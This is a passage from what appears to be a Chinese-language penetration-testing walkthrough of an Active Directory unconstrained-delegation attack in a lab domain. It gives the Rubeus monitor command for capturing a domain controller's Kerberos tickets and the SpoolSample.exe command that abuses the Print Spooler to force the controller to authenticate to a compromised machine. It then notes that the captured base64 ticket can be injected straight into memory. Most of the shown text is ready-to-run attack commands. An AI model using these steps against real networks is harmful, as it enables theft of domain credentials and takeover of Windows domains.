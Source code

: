 ```plain
#格式：
Rubeus.exe monitor /interval:5 /filteruser:VICTIM-DC-NAME$

#示例：
Rubeus.exe monitor /interval:5 /filteruser:dc$
```

[![](assets/1705982146-106bc5573d90ebaac49afa16288c5ffd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120222802-1dfe7508-b7a0-1.png)  
Step 4：使用spoolSample.exe向DC的Spooler服务发送请求，强制其访问win7进行身份验证

```plain
SpoolSample.exe dc.hacke.testlab win7-test.hacke.testlab
```

[![](assets/1705982146-43db67d6c4da105cf4e43610fcaadd52.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120222818-27d57856-b7a0-1.png)  
Step 5:之后在Rubuse中成功捕捉到来自目标dc的认证请求(此时的Rubeus.exe捕获到的TGT是base64编码的，但是我们不需要解码，Rubeus可以直接将base64编码的票据直接注入到内存中)  